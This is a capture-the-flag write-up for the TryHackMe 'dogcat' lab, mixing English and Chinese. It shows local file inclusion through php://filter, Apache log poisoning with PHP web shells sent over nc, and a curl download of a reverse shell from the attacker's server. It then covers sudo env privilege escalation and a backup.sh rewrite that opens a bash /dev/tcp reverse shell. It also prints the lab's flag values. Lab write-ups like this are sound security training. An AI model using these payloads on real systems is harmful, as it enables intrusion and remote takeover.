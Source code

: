 +++
title = 'DogCat'
date = 2024-09-12T23:14:19-04:00
+++


DOGCAT
===
- [x] FLAG1

First, I press F12 want to find any clue, but I don'y find.  
Seccond, I press DOG and CAT button, I got a lot cute picture, and I know **view** only allow dog or cat word.
![image](https://user-images.githubusercontent.com/67756786/195544351-dca3ecb7-941a-4f6d-b731-c2a414ddc0cb.png)

Now I try **php wraper** to take web code.
```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog
```

Got a text base on base64.
![image](https://user-images.githubusercontent.com/67756786/195545334-346cbd14-f4cd-4693-a74c-26a52680e9f3.png)

Decode, and then we know cute picture will be readomly picked out of ten.

![image](https://user-images.githubusercontent.com/67756786/195545544-018317ee-f418-41e9-956d-fdaac5b585d7.png)

Now, we try to take /etc/passwd

```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd
```
First warring message is talk about path error, and it show us path is dog/../../../../etc/passwd.php.
Obviously, web code should be **include(_GET(view).php)**

![image](https://user-images.githubusercontent.com/67756786/195548462-a80629d6-aa6b-4645-b9ac-78ab62662eba.png)

We use %00 to comment that.
Path is correct but still got error.
![image](https://user-images.githubusercontent.com/67756786/195550444-82fc62ef-cd2c-4f00-ae25-ae96617249cc.png)

Now we need to know that the web how to write.

```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../index
```
![image](https://user-images.githubusercontent.com/67756786/195551181-9ca38a4e-946e-4e4f-a94f-7ac00307154e.png)

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>

```

According to index.php source code, we know we have two variable , and we can use GET to change them. 
One of variable, ext, it's default value is .php,No wonder we use /etc/passwd to LFI will get error.

Now we need check /etc/passwd again.
```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd&ext=
```
work!
![image](https://user-images.githubusercontent.com/67756786/195553839-b10f7fb6-023f-4d19-9844-9ffe524981b8.png)

Then we need to find where can excute RCE vulnerable.  
First, confirm what web server

![image](https://user-images.githubusercontent.com/67756786/195554515-62f65ee8-f2d2-4730-b4f6-4a17e62a6bbf.png)

Second, confirm where apache log file
![image](https://user-images.githubusercontent.com/67756786/195555607-9db42cbd-a824-4ea2-8e19-c1785156e75b.png)

Finaly, try to got apache access.log
```
http://10.10.162.32//?view=dog/../../../../var/log/apache2/access&ext=.log
```
Work, nice!
![image](https://user-images.githubusercontent.com/67756786/195556701-5a70e822-e099-4857-9d17-e43fd7adffd4.png)

Now we try access.log can injection or not.
```
echo -e "GET <?php phpinfo(); ?>"| nc 10.10.162.32 80
```
Work
![image](https://user-images.githubusercontent.com/67756786/195557135-6a978839-dad3-4fdd-a902-765dc8206e2f.png)

Now I want put web shell into that.
```
echo -e "GET <?php if(isset($_GET['cmd']))  {  system($_GET['cmd']);  }?>" | nc 10.10.162.32 80
```
But I got this error message, and then I reboot target machine.
![image](https://user-images.githubusercontent.com/67756786/195541111-f95d8e1f-1e61-4993-8f85-7c2c0fa74aa2.png)

And then I think that I just want to print result of excution, after that I change my RCE code.

```
 echo -e "<?php system(\$_GET[B]); ?>" | nc 10.10.142.129 80
```

Success!
![image](https://user-images.githubusercontent.com/67756786/195745918-9ef79f1d-3981-4432-8764-c8382e9c0e56.png)

Now we need to uplode php reverse shell and excute it.  
First, uploade php revere shell, we can use python http server and use curl dowload reverse shell.
Second, excute this reverse shell.
php reverse shell(https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  
If you reverse shell is ready, we can open python http server
![image](https://user-images.githubusercontent.com/67756786/195754923-4cc04d9b-d523-4f31-902c-e1e562060afb.png)

After, we dowload and excute that.  
Dowload
```
http://10.10.142.129/?ext=&view=dog/../../../../var/log/apache2/access.log&B=curl -o /var/www/html/s.php%20http://10.10.180.17/shell.php
```
Excute
```
http://10.10.142.129/?view=dog/../s
```
But, got a error message, seem to be not use this method.

![image](https://user-images.githubusercontent.com/67756786/195755156-0699cb87-02fe-46af-a4b0-3a09d01d1eb2.png)

One day ago, I conscious my dowload URL is error, default port of python http server is 8000.  
Later, I do it again, same method, and work!

revereshell
![image](https://user-images.githubusercontent.com/67756786/195756571-aa5bc548-2fcc-4a9c-a1e6-e935aef44fcd.png)

Now, we need to got four flag! I will use `find` to search flag

```
find * -name flag*
```

![image](https://user-images.githubusercontent.com/67756786/195767056-726c156b-0903-4424-9604-1396ff6c6123.png)

and open that.

![image](https://user-images.githubusercontent.com/67756786/195767322-991d0302-a03d-4ac1-b2b5-c240764b1bea.png)


- [x] FLAG2

![image](https://user-images.githubusercontent.com/67756786/195767344-8ca50948-1b04-47c2-bf49-1986efa95617.png)

- [x] FLAG3

Usually, one of flag will be on the root dictory,and then we confirm www_data to can be root or not.
```
sudo -l
```
![image](https://user-images.githubusercontent.com/67756786/195769614-9a3adb49-accb-4f09-8af0-1507d7717aaa.png)

GTFOBins have privilege escalation method by env

![image](https://user-images.githubusercontent.com/67756786/195769742-863b904a-d754-4b83-ba55-24c5c3f5ae07.png)

![image](https://user-images.githubusercontent.com/67756786/195769806-8fe8bd4c-866b-4219-944f-d3ddfd1b566e.png)

flag3 into /root dictory

![image](https://user-images.githubusercontent.com/67756786/195770951-3eaf770f-00a9-4264-a973-da4db5812396.png)


- [x] FLAG4

在/目錄底下，我發現隱藏目錄.dockerenv，所以目前應該是container環境
![image](https://user-images.githubusercontent.com/67756786/195786709-0f4a8036-b4a2-41a2-9ecd-619922b00f87.png)

接著在opt中發現bakcup目錄
![image](https://user-images.githubusercontent.com/67756786/195787001-f3465ed3-1557-4bfb-87b6-bd20aecaba10.png)

backup.sh內容為`tar cf /root/container/backup/backup.tar /root/container`

backup.tar解壓縮後有root/container/目錄，底下有Dockerfile、backup.sh、launch.sh
Dockerfile
```docker
FROM php:apache-buster

# Setup document root
RUN mkdir -p /var/www/html

# Make the document root a volume
VOLUME /var/www/html

# Add application
WORKDIR /var/www/html
COPY --chown=www-data src/ /var/www/html/

RUN rm /var/log/apache2/*.log

# Set up escalation
RUN chmod +s `which env`
RUN apt-get update && apt-get install sudo -y
RUN echo "www-data ALL = NOPASSWD: `which env`" >> /etc/sudoers

# Write flag
RUN echo "THM{D1ff3r3nt_3nv1ronments_874112}" > /root/flag3.txt
RUN chmod 400 /root/flag3.txt

RUN echo "THM{LF1_t0_RC3_aec3fb}" > /var/www/flag2_QMW7JvaY2LvK.txt

EXPOSE 80

# Configure a healthcheck to validate that everything is up&running
HEALTHCHECK --timeout=10s CMD curl --silent --fail http://127.0.0.1:80/
```
launch.sh
```
#!/bin/bash
docker run -d -p 80:80 -v /root/container/backup:/opt/backups --rm box
```
接著更改backup.sh
```
echo "echo "#!/bin/bash \n bash -i >& /dev/tcp/10.10.180.17/4242 0>&1" > backup.sh"
```
監聽4242 port後會發現取得shell，並且為root權限，查看flag4.txt
![image](https://user-images.githubusercontent.com/67756786/195788139-a9d0dad3-3a25-45a8-8eab-423e0686af69.png)

確認crontab
```
corntab -l
```
![image](https://user-images.githubusercontent.com/67756786/195788238-83b05236-ba54-4743-87e0-b6f9447a552f.png)
